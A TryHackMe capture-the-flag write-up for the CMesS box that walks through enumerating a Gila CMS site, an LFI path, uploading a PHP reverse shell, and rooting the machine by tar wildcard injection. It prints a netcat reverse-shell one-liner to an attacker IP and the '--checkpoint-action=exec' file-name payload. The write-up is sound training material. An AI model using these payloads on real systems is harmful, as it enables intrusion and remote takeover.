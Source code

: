 ```yaml
---
title: TryHackMe CMESS
date: 2020-12-05
categories: [TryHackMe]
thumbnail: /assets/img/thm/cmess/cmess.png
excerpt: We use and LFI to get initial access, then we use a cronjob wildcard exploit. 
tags: [enum4linux,hydra,ssh,linpeas,john,searchsploit]
---
```


# TryHackMe CMesS
Can you root this Gila CMS box?
The challenge page tells us to add `<box IP> cmess.thm to /etc/hosts` so let's do that first.

---

## NMAP results
Let's start off by running our nmap scan
![nmap](nmap.png)
We can see that there's 2 ports open `port 22` and `port 80`.
> `port 22 - OpenSSH 7.2p2`
>`port 80 - Apache httpd 2.4.18`

---

## Searchsploit
looking up Gila CMS on searchsploit we seem to have 2 exploits:
![gila](gila.png)
Looks like we have some sort of local file inclusion

Examining the file:
![lfi](lfi.png)

We'll have to find credentials to the admin panel, then navigate to the LFI link.
`/admin/fm/?f=src../../../../../../../../../WINDOWS/system32/drivers/etc/hosts`

---

## Website

![website](website.png)
Not an interesting page.

Running `dirsearch` on target, we can see we have a `/admin` directory. Let's visit it.
![admin](dirsearch.png)

When running `wfuzz`:

`wfuzz -c -f subdomains.txt -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm/" -H "Host: FUZZ.cmess.thm" --hl 107`

![wfuzz](wfuzz.png)
We have found one subdomain, we'll add this to our `/etc/hosts` file as well. 

Visiting the subdomain: `dev.cmess.thm`

![dev](dev.png)
We can see that the password for andre has been reset and the new password has been given.

`Password: KPFTN_f2yxe%`
He stated that he's unable to get onto the admin panel
So let's try these credentials with the admin page:

`Email: andre@cmess.thm`
`Password: KPFTN_f2yxe%`

![admin](admin.png)

Appending: `/admin/fm/?f=src../../../../../../../../../WINDOWS/system32/drivers/etc/hosts`

![LFI2](lfi2.png)
Looks like it didn't do anything as we can just navigate to this ourselves via clicking `Content > File Manager` however, this has an upload function so let's try uploading a php reverse shell

You can get one from: [Here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)
or navigate on your host machine and go to `/usr/share/webshells/php` and edit the `php-reverse-shell.php` file and change your IP and the port you want.

Upload your reverse shell and navigate to the `assets` directory. You'll see your reverse shell nested in there:
![revshell](revshell.png)

Let's start our listener with `nc -lvnp <port used in revshell>` and navigate to our reverse shell to trigger it. `http://cmess.thm/assets/php-reverse-shell.php`

---

## User

GREAT!

![shell](shell.png)

Looks like we can't `cd` into andre so we'll have to find ways around this

![andre](andre.png)

---

## Privesc

We can get [LinEnum](https://github.com/rebootuser/LinEnum) onto the box by spinning up a python server with `python3 -m http.server` on host machine then navigate to a writeable directory such as `/tmp` on target machine `wget <host IP>:8000/LinEnum.sh`

We can see an interesting cron running

![cron](crontab.png)

Towards the end of `LinEnum`, we see 

![lin](endlin.png)

Let's `cd` into `/opt` and view that `.bak` file.

![backup](backup.png)

It notes that andre's backup password is `UQfsdCB7aAP6`

Let's try SSH this time and see if we can't login as andre.

Looks like it worked:

![ssh](ssh.png)

user flag is in current working directory.

---

## Root

One cool tool we can use is called [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

So let's do  as we did with LinEnum and setup a server on our host and wget the linPEAS file.

Remember back when we found the crontab, this will come in handy. linPEAS found the cron to be using what's called wildcard options

![cronlin](cronpeas.png)

The Slash is used as an interval.
This can be used with a range or wild card to run at a specified interval.

These wildcards go as follows: `minute, hour, day of month, month, day of week`. So in this case `*/2 * * * *` means update every 2 minutes. This cron is running a tar command to backup the andre's “backup” directory

We can read about tar wildcard injection: [Here](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)

We will need to create our payload from our host machine.
`msfvenom -p cmd/unix/reverse_netcat lhost=$HOST lport=$PORT R`

Now that we have our payload `mkfifo /tmp/wxejkej; nc <your IP> 1337 0</tmp/wxejkej | /bin/sh >/tmp/wxejkej 2>&1; rm /tmp/wxejkej`

All we have to do is a few commands:
Make sure you have your listener up with the right port from your payload.

Run these commands on target:
>`echo "mkfifo /tmp/wxejkej; nc <your IP> 1337 0</tmp/wxejkej | /bin/sh >/tmp/wxejkej 2>&1; rm /tmp/wxejkej" > shell.sh`
> `echo "" > "--checkpoint-action=exec=sh shell.sh"`
> `echo "" > --checkpoint=1`

Now all we have to do is wait for a callback and we should get root.

BINGO!!

![root](root.png)

Root flag will be in `/root`
















